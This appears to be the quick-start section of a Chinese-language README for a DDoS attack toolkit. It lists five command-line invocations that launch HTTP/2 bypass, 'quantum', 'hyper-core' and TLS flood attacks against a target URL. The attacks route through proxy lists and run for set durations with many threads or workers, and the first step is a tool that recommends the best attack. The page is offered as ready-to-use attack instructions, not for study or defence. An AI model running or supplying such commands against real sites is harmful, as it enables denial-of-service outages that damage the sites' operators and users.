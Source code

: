 
## 🚀 快速开始

安装完成后，立即开始使用：

### 1️⃣ 协议分析

智能分析目标并推荐最佳攻击方案：

```bash
node scripts/analyzer-tools/protocol-analyzer https://target.com
```

### 2️⃣ HTTP/2 绕过攻击

```bash
node scripts/recommended/http2-bypass.js \
  --url https://target.com \
  --proxy config/proxies/global.txt \
  --duration 300 \
  --processes 4 \
  --verify
```

### 3️⃣ 量子引擎攻击

```bash
./scripts/recommended/quantum-strike \
  --target https://target.com \
  --mode quantum \
  --proxies config/proxies/us.txt \
  --time 600
```

### 4️⃣ 超核攻击

```bash
node scripts/recommended/hyper-core.js \
  --url https://target.com \
  --proxy config/proxies/global.txt \
  --duration 300 \
  --workers 125
```

### 5️⃣ TLS 攻击

```bash
node scripts/recommended/tls-attack.js \
  --target https://target.com \
  --proxies config/proxies/global.txt \
  --duration 300 \
  --threads 50
```

---
